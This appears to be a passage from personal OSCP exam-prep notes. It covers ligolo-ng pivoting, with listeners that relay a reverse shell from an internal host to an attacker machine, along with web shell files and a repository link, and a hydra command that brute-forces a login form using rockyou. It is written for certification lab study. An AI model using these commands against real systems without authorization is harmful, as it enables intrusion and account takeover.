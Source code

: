 ```bash

# Kali shell (THIS IS NECESSARY)
#		note correct subnet
sudo ip route add 10.10.133.0/24 dev ligolo
```

Create 1-1 mapping (e.g. create rev shell from internal to :1234)
```bash
# Create port binding (internal host -> agent srv :1234 -> Kali :4321)
# Simply access Kali from internal by INTERMEDIARY_HOST_INTERNAL_IP:1234

# EXAMPLE
# Create a listener for rev shell
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
# Create a listener for HTTP
listener_add --addr 0.0.0.0:8888 --to 127.0.0.1:80 --tcp
```


## Q&A / FAQ

### Web

**NOTE: if multiple web ports, they might run as different users. Try pwn all**

**Did you remember to set /etc/hosts to e.g. `ms01.oscp.exam`?**

**Did you double check all ports that were reported as HTTP by nmap?**

- **My web shell is blocked** (webshell) \
If some formats are blocked see more formats: <https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx>.

Examples used in labs so far:
```
/home/kali/tmp/staged.pHP
/home/kali/tmp/simple-backdoor.php
/home/kali/tmp/cmdasp.aspx
```

- **Burp (community edition) is throttled for bruteforce use:** \
hydra or fuff. TODO try this
```bash
# Note: update field names for user and pass
# Note: update ":Invalid" to what page shows after failed login (and NOT on success)
#		or similarly match instead on what shows on success, such as ":S=logout"
#
# -v verbose, -V show login attempts, -f stop on success
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -vV -f
```


### Linux

